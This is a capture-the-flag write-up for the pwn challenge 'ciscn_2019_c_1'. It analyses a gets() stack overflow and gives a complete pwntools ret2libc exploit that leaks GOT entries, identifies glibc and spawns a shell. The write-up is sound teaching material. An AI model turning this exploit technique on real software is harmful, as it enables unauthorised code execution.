





<div align="center">

# 🔐 ciscn_2019_c_1

### Pwn Writeup · `ret2libc` via a Double GOT Leak


*Leak one libc address and you might guess the wrong build. Leak two, and the ambiguity disappears.*

</div>

---

## 📌 TL;DR

The binary `cis` is an "Encryption Machine" whose `encrypt()` function calls `gets()` on a fixed-size stack buffer with **no bounds checking**. No `system()` or `/bin/sh` is linked anywhere in the binary, ruling out a simple `ret2win` — this is a full `ret2libc`. The exploit leaks **two** libc addresses (`puts` and `gets`, not just one) through the binary's own `puts@plt`, fingerprints the exact libc build via `libc.rip` using both symbols as cross-checking constraints, computes `system()` and `"/bin/sh"`'s real addresses, loops back into `encrypt()` for a second overflow, and spawns a shell.

```
Stage 1: leak puts & gets real addresses -> identify libc -> compute system()/"/bin/sh"
Stage 2: overflow again -> system("/bin/sh")
```

| | |
|---|---|
| **Binary** | `cis` — ELF 64-bit, dynamically linked, No PIE, not stripped |
| **Bug** | `gets(buf)` into a 72-byte stack buffer — fully unbounded |
| **Protections** | Canary **off** · NX **on** · PIE **off** · Partial RELRO |
| **Missing ingredients** | No `system`, no `"/bin/sh"` string, no win function anywhere |
| **Primitive** | Double GOT leak (`puts` + `gets`) → libc fingerprinting → `ret2libc` |
| **Padding** | 88 bytes to the saved return address |
| **Result** | Shell, confirmed working against the remote instance |

---

## 🗺️ Table of Contents

1. [Challenge Overview](#1--challenge-overview)
2. [Vulnerable Function Analysis](#2--vulnerable-function-analysis-assembly-walkthrough)
3. [Reconstructed C Source](#3--reconstructed-c-source-approximate-from-disassembly)
4. [Exploitation Strategy](#4--exploitation-strategy-ret2libc)
5. [Full Python Exploit](#5--full-python-exploit)
6. [Identifying the Remote libc](#6--identifying-the-remote-libc-methodology)
7. [Quiz — Concepts Covered](#7--quiz--concepts-covered)
8. [Final Notes](#8--final-notes)

---

## 🧭 Exploit Flow at a Glance



---

## 1. 🔎 Challenge Overview

The binary `cis` is a simple "Encryption Machine" that presents a menu:

```
1.Encrypt
2.Decrypt
3.Exit
Input your choice!
```

Selecting option `1` leads to a `gets()` call on a fixed-size stack buffer with **no bounds checking** — the classic stack buffer overflow primitive.

### Protections

```
Arch:       amd64-64-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
```

| Protection | Status | Impact |
|---|---|---|
| Canary | None | Overflow can reach the return address directly, no leak needed for that part |
| NX | Enabled | Cannot execute shellcode on the stack — must use ROP |
| PIE | Disabled | All binary addresses (`.text`, `.plt`, `.got`) are **static and known at compile time** |
| RELRO | Partial | GOT is writable, but we don't need to write to it — we only *read* it |

No `system()` or `"/bin/sh"` is linked into the binary (confirmed via `nm` and a failed `grep` for `win|shell|flag|system`), and no win function exists. This rules out a simple `ret2win` and points directly at **ret2libc**.

---

## 2. 🧩 Vulnerable Function Analysis (Assembly Walkthrough)

### 2.1 `encrypt()` — stack frame setup

```asm
00000000004009a0 <encrypt>:
  4009a0: push   %rbp              ; save caller's rbp
  4009a1: mov    %rsp,%rbp         ; rbp = current rsp (frame base established HERE)
  4009a4: push   %rbx              ; rsp -= 8  (rbx saved, callee-saved register)
  4009a5: sub    $0x48,%rsp        ; rsp -= 0x48 (72 bytes reserved for locals/buffer)
```

At this point, relative to `rbp`:

```
rbp - 0x50  →  start of buffer (72 bytes of space, from `sub $0x48` + 8 from `push rbx`)
rbp - 0x08  →  saved rbx value
rbp - 0x00  →  saved caller's rbp
rbp + 0x08  →  return address  ← our target
```



**Key lesson reinforced here:** the buffer offset from `rbp` (`0x50`) is **not** the buffer's actual size. The buffer itself is only `0x48` (72) bytes (from the `sub`); the extra `0x08` comes from the preceding `push %rbx`. Both consume stack space and both lie *between* the buffer and `rbp`, so both count toward the padding needed to reach the return address.

**Padding formula (64-bit, with frame pointer):**
```
padding = (rbp - buffer_address) + 8
        = 0x50 + 8
        = 0x58 = 88 bytes
```

### 2.2 The vulnerable read

```asm
  4009d1: lea    -0x50(%rbp),%rax
  4009d5: mov    %rax,%rdi
  4009d8: mov    $0x0,%eax
  4009dd: call   400740 <gets@plt>   ; gets(buf) — NO length limit
```

`gets()` reads until a newline or EOF with **no bound on input length**, writing directly into a 72-byte buffer. This is the overflow primitive.

### 2.3 The XOR "encryption" loop (not exploit-relevant, but worth understanding)

```asm
  4009e7: mov    0x2016bf(%rip),%eax   ; eax = x (a global loop counter)
  4009ef: movzbl -0x50(%rbp,%rax,1),%eax  ; al = buf[x]
  4009f4: cmp    $0x60,%al
  4009f6: jle    400a27
  ...
  400a1c: xor    $0xd,%edx             ; if 'a'-'z' range: XOR with 0xd
  ...
  400a5c: xor    $0xe,%edx             ; if 'A'-'Z' range: XOR with 0xe
  ...
  400a9c: xor    $0xf,%edx             ; if '0'-'9' range: XOR with 0xf
```

This loop walks the buffer character-by-character and XORs letters/digits with different keys depending on their ASCII range, until it hits a null byte or reaches `strlen(buf)`. **This only touches the plaintext portion of the buffer** (up to the first null byte / `strlen`), so it does not interfere with our ROP chain, which is written *after* the buffer boundary and is not part of the "string" the loop walks.

### 2.4 `main()` — menu dispatch

```asm
400ba2: mov    $0x400ebc,%edi      ; "%d"
400bac: call   400770 <__isoc99_scanf@plt>   ; scanf("%d", &choice)
400bb1: call   400720 <getchar@plt>          ; consume leftover '\n'
...
400bc3: cmp    $0x1,%eax
400bc6: jne    400c05
400bc8: call   4009a0 <encrypt>      ; choice == 1 → call encrypt()
```

This confirms the interaction protocol: send `"1"` to `scanf`, then the overflow payload to `gets` inside `encrypt`.

---

## 3. 🧱 Reconstructed C Source (approximate, from disassembly)

```c
#include <stdio.h>
#include <string.h>
#include <signal.h>
#include <unistd.h>

int x = 0;  // global state for the XOR cipher position

void handler(int sig) {
    puts("Timeout");
    _exit(1);
}

void init() {
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);
    signal(SIGALRM, handler);
    alarm(60);
}

void delete_char(char *s, char c) {
    int i = 0, j = 0;
    while (s[j] != '\0') {
        if (s[j] != c) {
            s[i++] = s[j];
        }
        j++;
    }
    s[i] = '\0';
}

void encrypt() {
    char buf[72];       // actually spans rbp-0x50 to rbp-0x08 (72 bytes usable)
    memset(buf, 0, 0x30); // rough equivalent of the rep stos zeroing

    puts("Input your Plaintext to be encrypted");
    gets(buf);           // <-- VULNERABLE: no bounds check

    while (x < strlen(buf)) {
        char c = buf[x];
        if (c > 0x60 && c <= 0x7a) {
            buf[x] ^= 0xd;          // lowercase letters
        } else if (c > 0x40 && c <= 0x5a) {
            buf[x] ^= 0xe;          // uppercase letters
        } else if (c > 0x2f && c <= 0x39) {
            buf[x] ^= 0xf;          // digits
        }
        x++;
    }

    puts("Ciphertext");
    puts(buf);
}

void begin() {
    puts("====================================================================");
    puts("1.Encrypt");
    puts("2.Decrypt");
    puts("3.Exit");
    puts("Input your choice!");
}

int main() {
    init();
    puts("... banner art ...");
    begin();

    while (1) {
        fflush(stdout);
        int choice;
        scanf("%d", &choice);
        getchar();

        if (choice == 1) {
            encrypt();
            begin();
        } else if (choice == 2) {
            puts("I think you can do it by yourself");
            begin();
        } else if (choice == 3) {
            puts("Bye!");
            break;
        } else {
            puts("Something Wrong!");
            break;
        }
    }
    return 0;
}
```

---

## 4. 🎯 Exploitation Strategy: ret2libc

Since no `system()` is linked, we need the **real runtime address** of `system()` and `"/bin/sh"` inside libc. The plan:

1. **Leak**: use the existing `puts@plt` to print the real address of a libc function (`puts` itself, read from its own GOT entry) — and for extra reliability, a second function (`gets`) too.
2. **Identify libc**: use the leaked addresses' low 12 bits (ASLR doesn't randomize these) to look up the exact libc version via `libc.rip`, confirming with two symbols instead of one to avoid ambiguous matches.
3. **Compute real addresses**: `libc_base = leaked_addr - known_offset`, then `system_addr = libc_base + system_offset`, `binsh_addr = libc_base + binsh_offset`.
4. **Second overflow**: return into `encrypt()` again (clean, predictable stack frame), overflow again, and this time build a `system("/bin/sh")` chain.

### 4.1 Key Addresses (No PIE, static)

| Symbol | Address |
|---|---|
| `pop rdi ; ret` | `0x400c83` |
| single `ret` (alignment fix) | `0x4006b9` |
| `puts@plt` | `0x4006e0` |
| `puts@got` | `0x602020` |
| `gets@got` | `0x602050` |
| `encrypt()` | `0x4009a0` |

### 4.2 Stage 1 Chain — Leak `puts` and `gets`



```
padding(88) → pop rdi ; ret → puts@got → puts@plt     (prints real puts address)
            → pop rdi ; ret → gets@got → puts@plt     (prints real gets address)
            → encrypt()                                (loop back for stage 2)
```

### 4.3 The Stack Alignment Issue

The x86-64 SysV ABI requires `rsp % 16 == 0` **at the point of a `call`** (i.e. `rsp % 16 == 8` right after `call` pushes the return address, so that inside the callee, after any `push rbp`, it becomes 16-aligned again). Some libc internals (notably SSE-using code like `movaps`) crash with a `SIGSEGV` if this invariant is violated.

Because we enter these library functions via `ret` (not `call`), the net effect on stack parity depends on exactly how many 8-byte "pops" occur in the chain before the call. Each `pop`/`ret` pair toggles the 16-byte alignment parity. With one function call-and-return in the chain, parity flips; with two, it flips back.

**Important finding during exploitation:** when stage 1 had only one leak call, inserting a single standalone `ret` gadget fixed alignment for the following `system()` call. When stage 1 was expanded to leak *two* values, stage 2's `system()` call worked correctly **without** the extra `ret` gadget — because the parity introduced by the two leaks in stage 1 already balanced out by the time we return into `encrypt()` for stage 2. This is a good reminder that alignment must be verified empirically per-chain, not assumed from a previous version of the exploit.

### 4.4 Stage 2 Chain — Call `system("/bin/sh")`



```
padding(88) → pop rdi ; ret → binsh_addr → system_addr
```

---

## 5. 🚀 Full Python Exploit

```python
from pwn import *

context.arch = 'amd64'

if len(sys.argv) > 1:
    host, port = sys.argv[1].split(':')
    p = remote(host, int(port), ssl=True, sni=host)
else:
    p = process('./cis')

# ============ Static binary addresses (No PIE) ============
POP_RDI      = 0x400c83   # pop rdi ; ret
RET_GADGET   = 0x4006b9   # single ret, alignment fix (not needed in final chain — see notes)
PUTS_PLT     = 0x4006e0
PUTS_GOT     = 0x602020
GETS_GOT     = 0x602050
ENCRYPT_ADDR = 0x4009a0

# ============ Stage 1: leak puts and gets real addresses ============
payload1  = b'A' * 88
payload1 += p64(POP_RDI)
payload1 += p64(PUTS_GOT)
payload1 += p64(PUTS_PLT)       # puts(puts@got) -> leak real puts address

payload1 += p64(POP_RDI)
payload1 += p64(GETS_GOT)
payload1 += p64(PUTS_PLT)       # puts(gets@got) -> leak real gets address

payload1 += p64(ENCRYPT_ADDR)   # return into encrypt() again for stage 2

p.recvuntil(b'Input your choice!\n')
p.sendline(b'1')

p.recvuntil(b'Input your Plaintext to be encrypted\n')
p.sendline(payload1)

p.recvuntil(b'Ciphertext\n')
p.recvline()                               # discard the echoed padding line

leak1 = p.recvline().strip().ljust(8, b'\x00')
puts_addr = u64(leak1)

leak2 = p.recvline().strip().ljust(8, b'\x00')
gets_addr = u64(leak2)

log.info(f"puts@libc leaked: {hex(puts_addr)}")
log.info(f"gets@libc leaked: {hex(gets_addr)}")

# ============ libc identification (glibc 2.27, confirmed via libc.rip) ============
PUTS_OFFSET   = 0x809c0
GETS_OFFSET   = 0x800b0
SYSTEM_OFFSET = 0x4f440
BINSH_OFFSET  = 0x1b3e9a

libc_base = puts_addr - PUTS_OFFSET
log.info(f"libc base: {hex(libc_base)}")

assert libc_base + GETS_OFFSET == gets_addr, "libc base mismatch! wrong libc version"

system_addr = libc_base + SYSTEM_OFFSET
binsh_addr  = libc_base + BINSH_OFFSET

log.info(f"system: {hex(system_addr)}")
log.info(f"/bin/sh: {hex(binsh_addr)}")

# ============ Stage 2: system("/bin/sh") ============
payload2  = b'A' * 88
payload2 += p64(POP_RDI)
payload2 += p64(binsh_addr)
payload2 += p64(system_addr)

p.recvuntil(b'Input your Plaintext to be encrypted\n')
p.sendline(payload2)

p.interactive()
```

---

## 6. 🧪 Identifying the Remote libc (Methodology)



1. Took the leaked `puts` address and isolated the **low 3 hex digits** (`0x...9c0`) — the part of the address ASLR does *not* randomize (only the page-aligned high bits move).
2. Queried `libc.rip` with just `puts = 9c0` → **22 ambiguous matches**. Too many to trust.
3. Added a second leaked symbol, `gets = 0b0`, and re-queried with both constraints → narrowed to **3 matches**, all `glibc 2.27` (Ubuntu variants `3ubuntu1`, `0ubuntu3`, `0ubuntu2`).
4. Checked the offset tables for each match — `puts`, `gets`, `system`, and `str_bin_sh` offsets were **identical across all three variants**, so the exact sub-patch didn't matter; any of the three would produce correct math.
5. Used an `assert` in the exploit to programmatically verify `libc_base` computed from `puts` also correctly predicts the leaked `gets` address — a cheap sanity check that fails loudly instead of producing a silent, confusing segfault.

**Takeaway:** leaking two symbols instead of one is a small cost (one extra ROP step) that massively increases confidence before committing to a `system()` call — especially useful against a remote target where testing iterations are slow.

---

## 7. 🧩 Quiz — Concepts Covered

### Q1. Why can't we use a simple `ret2win` here?
<details>
<summary>Answer</summary>
No <code>system()</code> function is linked into the binary, and there's no custom "win" function that spawns a shell. The import table (<code>nm</code>) only shows I/O-related libc functions. Since the target binary is dynamically linked, the only way to reach <code>system()</code> is to resolve its <strong>real runtime address inside libc</strong>, which requires a leak — hence <strong>ret2libc</strong>.
</details>

### Q2. The buffer starts at `rbp - 0x50`. Why isn't the buffer itself 0x50 (80) bytes?
<details>
<summary>Answer</summary>
The <code>0x50</code> offset is the sum of two separate stack-pointer movements: <code>push %rbx</code> (8 bytes) and <code>sub $0x48,%rsp</code> (72 bytes). The buffer itself only occupies the 72 bytes reserved by <code>sub</code>. The extra 8 bytes belong to the saved <code>rbx</code> register, which sits between the buffer and the saved <code>rbp</code>. Both regions still need to be overflowed through to reach the return address, so the padding formula (<code>offset-to-rbp + 8</code>) still gives the correct total (88 bytes) — but conceptually, "buffer size" and "padding needed" are not the same number here.
</details>

### Q3. Why return to `encrypt()` directly instead of back to `main`'s menu loop?
<details>
<summary>Answer</summary>
Returning to <code>main</code>'s loop would require sending a <code>"1\n"</code> menu choice again before <code>gets()</code> is reached — an extra, error-prone step. Returning directly to <code>encrypt()</code>'s entry point (<code>0x4009a0</code>) re-establishes a fresh, predictable stack frame (same <code>push rbp; push rbx; sub 0x48,rsp</code> sequence) and goes straight to another <code>gets()</code> call, keeping the second payload's padding identical (88 bytes) and the chain simpler.
</details>

### Q4. Why leak `puts`'s own GOT entry using `puts` itself?
<details>
<summary>Answer</summary>
Because <code>puts@plt</code> is already present and callable in the binary — no need to find or set up another printing primitive. The GOT entry for <code>puts</code> holds its real resolved address in libc once the dynamic linker has run; reading and printing that value (not calling it) reveals where <code>puts</code> — and therefore the entire libc base — lives in memory for this process.
</details>

### Q5. What does the stack alignment (`movaps` crash) problem actually look like, mechanically?
<details>
<summary>Answer</summary>
The x86-64 SysV ABI expects <code>rsp % 16 == 0</code> at the moment a function is entered via a normal <code>call</code> (after the implicit push of the return address, <code>rsp % 16 == 8</code> right at function entry, then typically back to 16-aligned after the prologue's <code>push rbp</code>). Certain libc-internal routines use SSE instructions like <code>movaps</code> that require 16-byte-aligned memory operands; if the stack is off by 8 bytes due to an odd number of extra <code>push</code>/<code>pop</code> operations introduced by a ROP chain, these instructions raise a <code>SIGSEGV</code>. The fix is adding or removing a single <code>pop</code>-equivalent (like a standalone <code>ret</code> gadget) to shift parity back to what the libc code expects. This must be verified empirically for each distinct chain shape, since the required fix can flip depending on how many functions are called before it.
</details>

### Q6. Why leak two symbols (`puts` and `gets`) instead of just one when identifying the libc version?
<details>
<summary>Answer</summary>
A single leaked symbol's low bits can coincidentally match many different libc builds (22 matches here with just <code>puts</code>). Adding a second, independent symbol as a cross-check narrows the search space dramatically (down to 3, all functionally identical for our purposes) and avoids silently picking a wrong libc version — which would compute incorrect <code>system</code>/<code>/bin/sh</code> addresses and crash the exploit on the final, hardest-to-debug step.
</details>

### Q7. Why use an `assert` to check `libc_base + GETS_OFFSET == gets_addr` before computing `system_addr`?
<details>
<summary>Answer</summary>
It converts a potential silent failure (wrong libc → wrong <code>system_addr</code> → confusing remote segfault) into an immediate, loud, and clearly-labeled error at the exact point the bad assumption was made — saving debugging time, especially valuable against a remote target where each failed attempt costs time and network round-trips.
</details>

---

## 8. 📋 Final Notes

- **Flag omitted** — the challenge server issues a dynamic flag per connection, so no static flag is recorded here.
- Full exploit tested and confirmed working against the remote DASCTF-hosted instance (glibc 2.27, Ubuntu-based).
- Reinforced concepts from previous challenges: padding formula with frame pointer, No PIE static addressing, `gets()`/stdout buffering considerations, and (new to this challenge) ret2libc, GOT leaking, and libc fingerprinting via partial symbol offsets.

---

<div align="center">

⭐ If this writeup helped you, consider leaving a star.

</div>
